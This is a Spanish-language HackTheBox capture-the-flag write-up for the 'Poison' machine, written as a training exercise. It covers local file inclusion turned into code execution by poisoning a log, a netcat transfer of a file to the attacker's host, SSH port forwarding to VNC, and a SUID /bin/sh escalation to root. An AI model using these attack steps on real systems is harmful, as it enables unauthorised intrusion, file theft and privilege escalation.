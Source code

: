 ```yaml
---
title: HackTheBox - Poison
author: cotes
date: 2023-09-19 17:51:00 +0800
categories: [Writeup, HackTheBox, Medium]
tags: [Linux, 'LFI to RCE', 'Log Poisoning', 'Local Port Forwarding', 'VNC Abusing']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Medium/Poison/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Poison Machine Logo
---
```


Máquina Linux de nivel **Medium** de HackTheBox.

Técnicas usadas: **LFI to RCE, Log Poisoning, Local Port Forwarding, VNC Abusing**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Medium/Poison/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Medium/Poison/02-versions.png)

c. La página web nos dice que podemos ejecutar scripts **.php**, pero, el campo al no estar sanitizado correctamente, nos permite acceder incluir cualquier fichero

![](/assets/images/HTB/Medium/Poison/03-passwd.png)

* Lograremos una ejecución de comandos al leer el fichero de logs

![](/assets/images/HTB/Medium/Poison/04-log.png)

> La información que podemos manipular es el 'User-Agent', aquí es donde colocaremos nuestro código php para ser interpretado mediante el LFI
{: .prompt-info }

![](/assets/images/HTB/Medium/Poison/05-headers.png)

* En este caso la ruta para acceder a los logs en FreeBSD es `/var/log/httpd-access.log`, y ahora, ya podremos ejecutar comandos visitando la url: `http://<IP Poison>/browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log&cmd=[Comando]`

    ![](/assets/images/HTB/Medium/Poison/06-ls.png)

    * El fichero que nos llama la atención es **pwdbackup.txt**. El contenido de este está encodeado en base64 13 veces.

d. Obtendremos una contraseña 'Charix!2#4%6&8(0', la cual nos servirá para conectarnos en ssh con el usuario charix (Lo vimos al obtener el /etc/passwd)

### Escalada de Privilegios 💹

a. Al investigar en la máquina veremos dos cosas interesantes:

* Tenemos un fichero 'secret.zip' el cual nos transferimos a nuestra máquina

    ```bash
    ❯ nc -lvnp 443 > secret.zip
    -----------------------------------------------------
    charix@Poison:~ % nc -N 10.10.14.18 443 < secret.zip
    ```

* Tenemos 2 puertos abiertos internamente '5901 y 5801'

```bash
charix@Poison:~ % netstat -na -p tcp
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
<SNIP>
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
```

* Al consultar sobre estos puertos, en [HackTrick](https://book.hacktricks.xyz/network-services-pentesting/pentesting-vnc) nos mencionan que son del servicio VNC

b. Para auditar el servicio **VNC** nos piden una credencial alojada en un fichero, por lo que, descomprimimos el .zip usando la contraseña del usuario charix

```bash
❯ unzip secret.zip
Archive:  secret.zip
[secret.zip] secret password: Charix!2#4%6&8(0
extracting: secret
```

* Además, como el puerto 5901 no es accesible desde fuera, haremos Local Port Forwarding con SSH

    ```bash
    ❯ ssh charix@10.10.10.84 -L 5901:127.0.0.1:5901
    ------------------------------------------------
    ❯ lsof -i:5901
    ssh     54634 root    5u  IPv4 153287      0t0  TCP localhost:5901 (LISTEN)
    ```

c. Ahora, ya podemos acceder a este servicio. Al ser **root** le damos permiso SUID a la /bin/sh

```bash
❯ vncviewer -passwd secret 127.0.0.1::5901
```

![](/assets/images/HTB/Medium/Poison/07-root.png)

* Ahora desde ssh podemos acceder a una `/bin/sh` como root

    ```bash
    charix@Poison:~ % sh -p
    # whoami
    root
    ```